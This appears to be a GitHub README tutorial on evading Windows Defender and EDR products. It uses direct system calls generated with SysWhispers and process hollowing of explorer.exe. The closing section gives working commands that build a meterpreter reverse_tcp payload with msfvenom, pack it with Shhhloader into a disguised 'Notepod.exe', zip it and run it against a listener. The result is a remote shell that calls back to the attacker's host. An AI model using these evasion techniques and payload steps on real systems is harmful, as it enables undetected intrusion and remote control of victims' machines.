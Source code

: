 # Defeat Windows Defender using direct Syscall

## Protection rings


![image](https://user-images.githubusercontent.com/76106120/151554524-e5d661f2-6d22-4051-a2bf-40367cf6ac2f.png)


Windows os as some security rings in order to avoid any one to access critical memory region.
There is the user-mode where the application are running (ring 3) and the kernel mode (ring 0) with the critical system components.
Some resources cannnot be accessed by specific application in order to prevent malicious behavior.

Application are isolated from critical memory section and system resources are running in Kernel Mode.
To make the translation between user mode and kernel mode there is an dll called ntddl.dll.
Ntddl.dll gives the right Api call perform by the user mode, thanks to that the kernel can make the right system call.

#### In the image just below, you can see how the user mode and the kernel mode interract :
 
![image](https://user-images.githubusercontent.com/76106120/151559138-3b33e231-e4a8-4af7-a561-c34278648b02.png)
 
 
The AV/EDR products knows that the sensitive spot is when the ntdll.dll give the syscall number to execute to the kernel mode.
If an AV/EDR recognize strange syscall, they will hook the API.
 
To bypass this, it is possible to make direct system call. We can execute system call without using the ntdll.dll.
This is where the SysWhisper projet will be useful to us. With syswhisper you are able to generate file Syscall.h who contain all the syscall of each windows operating system.
SysWhisper gives us all the syscall that we need for any type of os, with that we are able to make direct syscall as if they were normal Native API functions.
We do not need to pass thought the ntdll.dll, a therefore to pass under the radar of AV/EDR.

### Let's take an example :

If we want to use the NT system call CreateFile, we should call the NtCreateFile located in the ntdll.dll. But instead of this we are directly invoking SysNtCreateFile.

![image](https://user-images.githubusercontent.com/76106120/151571082-cb09f257-e154-4329-9f3f-13b1e06cc1ca.png)

 
The AV/EDR product could not hook the API because we are not using API calls, we are using direct syscall.
So the AV/EDR cannot intercept our attemps and we would have opened it succesfully 🙂

### Process Hollowing

Now that we are able to use NT system call under the radar of AV/EDR products.
We want to run our shellcode.

How it's working:

1) Create the target process (ex: explorer.exe) in a suspended state.

2) Parse the create process in order to find the EntryPoint

3) Then Write the shellcode to the EntryPoint and resume the thread execution.

 
## Shhhloader project (https://github.com/icyguider/Shhhloader):

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o tesssssst.bin
 
> ./Shhhloader.py tesssssst.bin -p explorer.exe -o Notepod.exe
 
> zip Notepod.exe Doc.zip
 
 - Drag and drop .zip in your Windows machine.
 - Start meterpreter listener and set payload to windows/x64/meterpreter/reverse_tcp (Shhhloader only support staged payload, so you have to provide it the right one !!!)
 - run the Notepod.exe
 
![image](https://user-images.githubusercontent.com/76106120/151585618-3b3790d7-e591-4c40-976e-5d8e6c5bfef4.png)

 
 
 
 




